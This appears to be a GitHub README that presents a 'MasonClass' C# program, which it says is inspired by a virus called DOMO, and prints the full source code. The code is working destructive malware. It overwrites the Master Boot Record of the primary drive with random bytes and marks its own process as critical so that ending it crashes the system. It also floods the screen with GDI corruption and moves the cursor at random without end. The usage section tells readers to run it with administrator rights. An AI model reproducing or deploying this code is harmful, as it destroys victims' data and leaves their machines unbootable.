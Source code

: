# MasonClass Project

![Virus Preview](https://i.ibb.co/QkBqtSC/D51-B5-ECC-D63-E-43-C1-925-A-1-D380-E380584.png)

This project contains C# code that implements various bizarre effects on the system, inspired by a virus called **DOMO**, created by an individual named **ABOLHB**. The `MasonClass` code is designed to demonstrate specific functionalities that include manipulating system resources in a way that simulates various disruptive behaviors. The key features of this code include:

## Code Description

### Key Functionalities

1. **Writing to the MBR**:
   - The code includes a method that modifies the Master Boot Record (MBR) of the primary hard drive. Writing to the MBR can disrupt the boot process of a system, which can lead to data loss or inaccessibility.
   - The function generates random bytes and writes them to the MBR, essentially overwriting critical boot information. This is done through direct file access to the physical drive.

2. **Creating Screen Effects**:
   - The code employs GDI (Graphics Device Interface) functions to create visual disturbances on the screen. It achieves this by continuously drawing random areas of the screen with varying opacities, creating a flickering effect that can be quite disorienting.
   - A dedicated thread is started to handle these visual effects, allowing the main application to run concurrently without freezing the user interface.

3. **Random Mouse Movement**:
   - The code simulates mouse movement by changing the cursor's position to random coordinates on the screen. This is accomplished by invoking Windows API calls that manipulate the cursor's location.
   - Another thread manages this functionality, causing the mouse to move unpredictably, which can be frustrating for users attempting to interact with their system.

### Usage Instructions

- This code should be run on a Windows system with administrative privileges due to the nature of the operations performed, particularly writing to the MBR.
- Ensure that you have appropriate permissions and are aware of the risks involved in modifying system-level components.

![Doomoo Image](https://i.ibb.co/4156j7R/doomoo.png)

### Code Implementation

Here’s the complete implementation of the MasonClass:

```csharp
using System;
using System.Runtime.InteropServices;
using System.Threading;
using System.Diagnostics;
using System.IO;

class MasonClass
{
    [DllImport("user32.dll", CharSet = CharSet.Auto)]
    static extern IntPtr GetDC(IntPtr hWnd);
    [DllImport("user32.dll", CharSet = CharSet.Auto)]
    static extern int ReleaseDC(IntPtr hWnd, IntPtr hDC);
    [DllImport("gdi32.dll", CharSet = CharSet.Auto)]
    static extern bool BitBlt(IntPtr hdcDest, int nXDest, int nYDest, int nWidth, int nHeight, IntPtr hdcSrc, int nXSrc, int nYSrc, uint dwRop);
    [DllImport("user32.dll")]
    static extern int GetSystemMetrics(int nIndex);
    [DllImport("user32.dll")]
    static extern void SetCursorPos(int X, int Y);
    [DllImport("kernel32.dll", SetLastError = true)]
    static extern IntPtr CreateFile(
        string lpFileName,
        uint dwDesiredAccess,
        uint dwShareMode,
        IntPtr lpSecurityAttributes,
        uint dwCreationDisposition,
        uint dwFlagsAndAttributes,
        IntPtr hTemplateFile);
    [DllImport("kernel32.dll", SetLastError = true)]
    static extern bool WriteFile(
        IntPtr hFile,
        byte[] lpBuffer,
        uint nNumberOfBytesToWrite,
        out uint lpNumberOfBytesWritten,
        IntPtr lpOverlapped);
    [DllImport("kernel32.dll", SetLastError = true)]
    static extern bool CloseHandle(IntPtr hObject);

    const int SM_CXSCREEN = 0;
    const int SM_CYSCREEN = 1;
    const uint NOTSRCERASE = 0x001100A6;
    const uint GENERIC_WRITE = 0x40000000;
    const uint OPEN_EXISTING = 3;

    [DllImport("ntdll.dll", SetLastError = true)]
    private static extern int NtSetInformationProcess(IntPtr processHandle, int processInformationClass, ref int processInformation, int processInformationLength);
    private const int ProcessInformationClass = 29;

    static void Main()
    {
        MasonWriteMBR(); // Call to write to MBR
        Process currentProcess = Process.GetCurrentProcess();
        IntPtr handle = currentProcess.Handle;
        int isCritical = 1; 
        NtSetInformationProcess(handle, ProcessInformationClass, ref isCritical, sizeof(int));
        int screenWidth = GetSystemMetrics(SM_CXSCREEN);
        int screenHeight = GetSystemMetrics(SM_CYSCREEN);
        MasonStartEffect(screenWidth, screenHeight); // Start visual effects
        MasonMoveMouseRandomly(screenWidth, screenHeight); // Start mouse movement
        while (true) // Keep the application running
        {
            Thread.Sleep(1000);
        }
    }

    static void MasonWriteMBR()
    {
        using (FileStream fs = new FileStream(@"\\.\PhysicalDrive0", FileMode.Open, FileAccess.Write))
        {
            byte[] mbrData = new byte[512]; // Buffer for MBR data
            Random rand = new Random();
            rand.NextBytes(mbrData); // Fill buffer with random bytes
            fs.Write(mbrData, 0, mbrData.Length); // Write to MBR
        }
    }

    static void MasonStartEffect(int screenWidth, int screenHeight)
    {
        Random rand = new Random();
        new Thread(() =>
        {
            while (true)
            {
                IntPtr hdc = GetDC(IntPtr.Zero);
                BitBlt(hdc, rand.Next(15), rand.Next(15), screenWidth, screenHeight, hdc, rand.Next(15), rand.Next(15), NOTSRCERASE);
                ReleaseDC(IntPtr.Zero, hdc);
                Thread.Sleep(10);
            }
        }).Start();
    }

    static void MasonMoveMouseRandomly(int screenWidth, int screenHeight)
    {
        Random rand = new Random();
        new Thread(() =>
        {
            while (true)
            {
                int x = rand.Next(0, screenWidth);
                int y = rand.Next(0, screenHeight);
                SetCursorPos(x, y); // Move mouse to random position
                Thread.Sleep(300); // Pause before next movement
            }
        }).Start();
    }
}
